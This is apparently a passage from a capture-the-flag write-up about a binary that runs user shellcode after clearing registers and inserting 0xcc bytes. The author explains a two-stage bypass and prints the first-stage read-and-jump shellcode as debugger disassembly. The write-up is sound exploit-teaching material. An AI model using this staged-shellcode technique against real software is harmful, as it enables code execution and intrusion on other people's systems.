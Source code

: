 ```
  v10 = -52;
  v11 = -52;
  v12 = clean;
  v13 = qword_202028;
  v14 = qword_202030;
  v15 = qword_202038;
  v16 = qword_202040;
  v17 = qword_202048;
  shellcode = mmap(0LL, 0x4EuLL, 7, 0x22, -1, 0LL);
  *shellcode = v12;
  shellcode[1] = v13;
  shellcode[2] = v14;
  shellcode[3] = v15;
  shellcode[4] = v16;
  shellcode[5] = v17;
  shellcode[6] = *(_QWORD *)&v2;
  shellcode[7] = *(_QWORD *)((char *)&five + 2);
  shellcode[8] = *(__int64 *)((char *)&nine + 5);
  *((_DWORD *)shellcode + 18) = *(_DWORD *)((char *)&eighteen + 3);
  *((_WORD *)shellcode + 38) = *(_WORD *)((char *)&eighteen + 7);
  ((void (__fastcall *)(_QWORD, signed __int64))shellcode)(0LL, 78LL);
  return *MK_FP(__FS__, 40LL) ^ v1;
}
```

So this function will run our shellcode. However before it does that it will alter our shellcode. It will append a bunch of xor statements before our shellcode, which will clear out all of the registers except for the rip register (this includes rsp, so we can't push/pop without crashing). In addition to that, it will insert the `0xcc` byte four times throughout our shellcode (at offsets 5, 10, 20, & 29)

So what I ended up doing was using two sets of shellcode. The first was just to make a syscall to read to scan in additional shellcode (since the shellcode to pop a shell would be harder to fit in due to the constraints). Then I would just scan in the shellcode to pop a shell without the size / no null bytes / 0xcc inserted restrictions, and then jump to it. I tried for a little bit to just get the shell using only one set of shellcode, however I couldn't do it.

Here is the shellcode that I used to scan it in (with the `0xcc` bytes inserted). There are a lot of nops to ensure the `0xcc` don't mess with any instructions: 

```
gef➤  x/20i $rip
=> 0x7f6e87b34030:	mov    dl,0xff
   0x7f6e87b34032:	nop
   0x7f6e87b34033:	nop
   0x7f6e87b34034:	nop
   0x7f6e87b34035:	int3   
   0x7f6e87b34036:	nop
   0x7f6e87b34037:	nop
   0x7f6e87b34038:	nop
   0x7f6e87b34039:	nop
   0x7f6e87b3403a:	int3   
   0x7f6e87b3403b:	lea    rsi,[rip+0xfffffffffffffff8]        # 0x7f6e87b3403a
   0x7f6e87b34042:	nop
   0x7f6e87b34043:	nop
   0x7f6e87b34044:	int3   
   0x7f6e87b34045:	add    rsi,0x43
   0x7f6e87b34049:	syscall 
   0x7f6e87b3404b:	jmp    rsi

```
